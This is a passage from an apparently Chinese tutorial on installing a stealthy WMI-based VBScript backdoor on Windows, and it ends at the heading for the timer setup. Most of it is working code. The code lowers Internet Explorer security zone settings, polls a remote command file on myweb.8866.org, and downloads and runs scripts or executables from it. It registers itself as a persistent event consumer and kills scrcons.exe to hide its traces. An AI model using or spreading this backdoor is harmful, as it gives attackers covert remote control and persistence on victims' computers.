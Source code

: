 下面的'vbs命令文件把"本地帐户的共享和安全模式"由"仅来宾"改为"经典"（对XP和2003有效）：

	'vbs
	shl.regwrite "HKLM/SYSTEM/CurrentControlSet/Control/Lsa/forceguest",0,"REG_DWORD"

注意，vbs和wsh前面都有一个单引号，因为整个命令文件都作为脚本执行，所以必须注释掉第一行，:bat也是一样。
使用'vbs时千万注意不要有语法错误，否则会使后门出错并停止。如果是复杂的脚本，建议使用'wsh。

将核心代码改写为单行字符串格式，就可以作为ASEC的实例安装了。改写时要注意"if"和"end if"配对以及去掉续行符。
完整的安装脚本代码如下：

'***以下为参数配置，请根据情况自行修改***'

- nslink="winmgmts://./root/cimv2:" 'ASEC所在的名字空间'
- doorname="vbscript_backdoor" '记住后门的名字，卸载时需要'
- runinterval=86400000 '每天运行一次'
- cmdu="http://myweb.8866.org/cmd.txt" '命令文件的位置'
- cmdw=4000 '文件下载超时时间'
- cmdl="HKLM/SOFTWARE/Microsoft/WBEM/CIMOM/CmdLength" '保存命令长度的键值名'

'***参数配置结束***'

	createobject("WScript.Shell").regwrite cmdl,0,"REG_DWORD"

'脚本后门核心代码'

	stxt="cmdu="""&cmdu&""":cmdw="&cmdw&":cmdl="""&cmdl&""":on error resume next:set shl=createobject(""WScript.Shell""):set aso=createobject(""ADODB.Stream""):set ie=createobject(""InternetExplorer.Application""):zone=""HKCU/SOFTWARE/Microsoft/Windows/CurrentVersion/Internet Settings/Zones/3"":set1=zone&""/1201"":set2=zone&""/1400"":set3=zone&""/CurrentLevel"":val1=shl.regread(set1):val2=shl.regread(set2):val3=shl.regread(set3):regd=""REG_DWORD"":shl.regwrite set1,0,regd:shl.regwrite set2,0,regd:shl.regwrite set3,0,regd:ie.visible=0:ie.navigate ""about""&"":blank"":ie.document.write ""<script>function whr(){return new ActiveXObject('WinHttp.WinHttpRequest.5.1')}</script>"":with ie.document.script.whr():.settimeouts cmdw,cmdw,cmdw,cmdw:.open ""GET"",cmdu,true:.send:if not .waitforresponse(cmdw) then die:end if:if .status>299 then die:end if:rt=.responsetext:if len(rt)=shl.regread(cmdl) then die:end if:shl.regwrite cmdl,len(rt),regd:cmds=split(rt,vbcrlf,-1):if ubound(cmds)<1 then die:end if:cmdt=lcase(trim(cmds(0))):aso.type=1:aso.open:cd=shl.currentdirectory&chr(92):select case cmdt:case ""'vbs"":execute(rt):die:case "":bat"":aso.write .responsebody:aso.savetofile cd&""_.bat"",2:aso.close:shl.run chr(34)&cd&""_.bat"""""",0:die:case ""'wsh"":aso.write .responsebody:aso.savetofile cd&""_.vbs"",2:aso.close:shl.run ""cscript.exe """"""&cd&""_.vbs"""""",0:die:case ""exe"":case else die:end select:if ubound(cmds)<4 then die:end if:.open ""GET"",cmds(1),true:.send:if not .waitforresponse(cmds(2)) then die:end if:if .status>299 then die:end if:path=shl.expandenvironmentstrings(cmds(3)):aso.write .responsebody:aso.savetofile path,2:aso.close:shl.run chr(34)&path&"""""" ""&cmds(4),0:end with:die:sub die:ie.quit:shl.regwrite set1,val1,regd:shl.regwrite set2,val2,regd:shl.regwrite set3,val3,regd:for each ps in getobject(""winmgmts://./root/cimv2:win32_process"").instances_:if lcase(ps.name)=""scrcons.exe"" then ps.terminate:end if:next:end sub"

'配置事件消费者'

	set asec=getobject(nslink&"ActiveScriptEventConsumer").spawninstance_
	asec.name=doorname&"_consumer"
	asec.scriptingengine="vbscript"
	asec.scripttext=stxt
	set asecpath=asec.put_

'配置计时器'
